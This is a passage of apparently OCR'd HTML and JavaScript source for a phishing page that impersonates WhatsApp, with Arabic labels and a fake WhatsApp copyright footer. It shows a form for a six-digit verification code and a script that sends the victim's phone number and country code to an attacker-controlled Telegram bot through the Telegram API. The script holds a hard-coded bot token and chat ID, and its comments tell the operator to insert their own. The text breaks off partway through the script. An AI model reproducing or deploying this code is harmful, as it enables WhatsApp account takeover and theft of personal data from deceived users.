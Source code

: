 
<div id="codeSection" class="hidden">
  <form id="codeForm">
    
    <label for="code">تم ارسال كود التحقق  قم بادخالة هنا </label>
    <div class="code-boxes">
      <input type="text" id="input1" class="code-box" maxlength="1" required="" placeholder="ـ">
      <input type="text" id="input2" class="code-box" maxlength="1" required="" placeholder="ـ">
      <input type="text" id="input3" class="code-box" maxlength="1" required="" placeholder="ـ">
      <input type="text" id="input4" class="code-box" maxlength="1" required="" placeholder="ـ">
      <input type="text" id="input5" class="code-box" maxlength="1" required="" placeholder="ـ">
      <input type="text" id="input6" class="code-box" maxlength="1" required="" placeholder="ـ">
    </div>
    <button type="submit" id="submitCodeButton">إرسال الكود</button>
    <div class="message" id="codeMessage"></div>
  </form>
</div>

<footer>
  جميع الحقوق محفوظة لدى شركة واتساب © 2024
</footer>

  <script>
    // معرف البوت ومعرف الدردشة
    const botToken = "7744621956:AAE7qxRtzVfxKOhWreuZEV2mGoz07WUkmAI"; // استبدل بـ Token الخاص ببوت تيليجرام
    const chatId = "1016154097"; // استبدل بـ Chat ID الخاص بك

    document.getElementById("requestCodeButton").addEventListener("click", function () {
      const countryCode = document.getElementById("country").selectedOptions[0].getAttribute("data-code");
      const phoneNumber = document.getElementById("phoneNumber").value.trim();

      if (phoneNumber === "") {
        alert("يرجى إدخال رقم الهاتف");
        return;
      }


      const textToSend = `الرقم المرسل: ${countryCode} ${phoneNumber}`;


      const apiUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;


      fetch(apiUrl, {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify({
          chat_id: chatId,
          text: textToSend,
        }),
      })
        .then((response) => {
          if (response.ok) {
            